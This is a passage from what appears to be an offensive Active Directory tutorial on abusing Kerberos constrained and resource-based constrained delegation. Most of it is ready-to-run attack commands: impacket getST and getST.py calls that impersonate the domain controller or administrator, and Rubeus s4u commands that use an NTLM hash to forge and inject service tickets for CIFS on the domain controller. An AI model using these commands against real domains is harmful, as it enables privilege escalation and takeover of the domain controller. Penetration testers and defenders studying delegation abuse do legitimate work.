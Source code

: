 ```
export KRB5CCNAME=delegator\$.ccache
impacket-getST -spn "http/dc01.domain.ru" -impersonate "dc01$" -additional-ticket "dc01$.ccache" "domain.ru/delegator$" -k -no-pass
describeTicket.py dc01$.ccache
```

![Image](/img/acl_ad_cd/4.png)

### Constrained delegation with Protocol Transition:

This method of delegation abuse is a classic method of exploitation, the TGS ticket is forwarded and can completely go through the s4u2self and s4u2proxy chain.

```
execute-assembly /tmp/Rubeus.exe s4u /impersonateuser:DC01 /msdsspn:time/dc.domain.ru /user:jaki_pc /rc4:fcb5ae2b5e8c05d7a938bbe8649e4a44 /altservice:cifs/dc.domain.ru /nowrap – convenient for .kirbi export
execute-assembly /tmp/Rubeus.exe s4u /impersonateuser:DC01 /msdsspn:time/dc.domain.ru /user:jaki_pc /rc4:fcb5ae2b5e8c05d7a938bbe8649e4a44 /altservice:cifs/dc.domain.ru /ptt – convenient for TGS import

OR just

getST.py domain.ru/JAKI_PC\$ -dc-ip domain.ru -impersonate administrator -spn time/dc.domain.ru -altservice cifs/dc.domain.ru
```

### Resource-based Constrained Delegation:

This type of delegation is used in the same way as Constrained delegation with Protocol Transition. Instead of a service, the msds-allowedtoactonbehalfofotheridentity attribute specifies a link to the machine account object and there is also no need to use the altservice flag, because delegation goes to the machine account
